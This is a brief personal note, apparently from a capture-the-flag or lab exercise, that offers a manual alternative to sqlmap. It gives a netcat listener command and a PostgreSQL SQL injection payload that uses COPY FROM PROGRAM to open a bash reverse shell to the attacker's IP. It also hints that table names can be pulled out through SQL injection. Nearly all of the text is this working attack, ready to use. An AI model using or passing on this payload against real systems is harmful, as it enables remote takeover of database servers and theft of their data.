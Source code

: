 ```yaml
---
title: SqlMap
updated: 2023-10-31 11:58:42Z
created: 2023-10-31 11:57:59Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```




For those who are still can’t get sqlmap to work here is a manual method to spawn a shell.
Listener:
`nc -nvlp 7777`

Payload:
`'; COPY cars FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/{YOUR_IP}/7777 0>&1"' --`

YOUR_IP is your machines ip (if using open vpn use tun0 interface’s ip)
Note: cars here is valid table in database. Database schema and table names can be exfiltrated through various SQLI techniques





